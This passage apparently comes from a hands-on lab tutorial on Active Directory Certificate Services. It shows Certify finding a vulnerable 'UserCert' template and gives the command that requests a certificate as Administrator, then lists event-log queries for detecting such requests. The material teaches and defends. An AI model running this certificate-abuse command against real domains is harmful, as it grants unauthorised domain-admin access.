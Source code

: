 ```powershell
        WriteProperty Principals    : EAGLE\Administrator           S-1-5-21-1518138621-4282902758-752445584-500
                                      EAGLE\Domain Admins           S-1-5-21-1518138621-4282902758-752445584-512
                                      EAGLE\Enterprise Admins       S-1-5-21-1518138621-4282902758-752445584-519

Certify completed in 00:00:00.9120044
```

![Certify](img/Certify.png)

When checking the `Vulnerable Certificate Templates` section from the output of Certify, we will see that a single template with plenty of information about it is listed. We can tell that the name of the CA in the environment is `PKI.eagle.local\eagle-PKI-CA`, and the vulnerable template is named `UserCert`. The template is vulnerable because:

- All Domain users can request a certificate on this template.
- The flag [CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1) is present, allowing the requester to specify the `SAN` (therefore, any user can request a certificate as any other user in the network, including privileged ones).
- Manager approval is not required (the certificate gets issued immediately after the request without approval).
- The certificate can be used for `Client Authentication` (we can use it for login/authentication).

To abuse this template, we will use `Certify` and pass the argument `request` by specifying the full name of the CA, the name of the vulnerable template, and the name of the user, for example, `Administrator`:

```powershell
PS C:\Users\bob\Downloads> .\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

```

[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *